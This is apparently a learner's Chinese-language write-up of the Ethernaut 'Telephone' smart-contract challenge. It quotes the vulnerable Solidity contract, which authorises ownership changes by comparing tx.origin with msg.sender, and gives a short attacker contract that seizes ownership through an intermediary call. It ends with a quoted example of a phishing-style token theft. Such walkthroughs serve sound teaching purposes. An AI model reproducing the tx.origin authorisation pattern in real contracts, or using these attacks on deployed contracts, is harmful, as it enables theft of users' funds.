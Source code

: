 ```
Claim ownership of the contract below to complete this level.

  Things that might help

See the "?" page above, section "Beyond the console"
```





```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```



就是先前看的 tx.origin的问题？



我们通过合约Attack直接调用Telephone的构造函数的话，owner是归谁？

```
本關主要是為了指出tx.origin跟msg.sender的分別，當以智能合約呼叫智能合約時，msg.sender在被呼叫智能合約中，會是呼叫者智能合約的地址，而tx.origin則是最初呼叫智能合約的個人錢包地址。
```



所以我们通过attack call telephone时，第一步的constructor后，owner是telephone合约的，而我们执行完 changeOwner后，owner就会变成 attacker了~



写好合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract Telephone {
    address levelInstance;
    
    constructor(address _levelInstance)  {
      levelInstance = _levelInstance;
    }
  
  function claim() public {
    ITelephone(levelInstance).changeOwner(msg.sender);
  }

}
```



填入levelInstance的地址，deploy。

![image-20250228212614230](./Telephone/images/image-20250228212614230.png)



然后claim即可。

此时查看题目合约的owner：

![image-20250228212744904](./Telephone/images/image-20250228212744904.png)





但现在submit instance的gas费用怎么这么高啊？？？![image-20250228213032246](./Telephone/images/image-20250228213032246.png)



。。。



好吧，第二天来看就降下去了。

![image-20250301103646405](./Telephone/images/image-20250301103646405.png)



```
While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as this.

An example of a possible attack is outlined below.

Use tx.origin to determine whose tokens to transfer, e.g.
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
function () payable {
  token.transfer(attackerAddress, 10000);
}
In this scenario, tx.origin will be the victim's address (while msg.sender will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
```

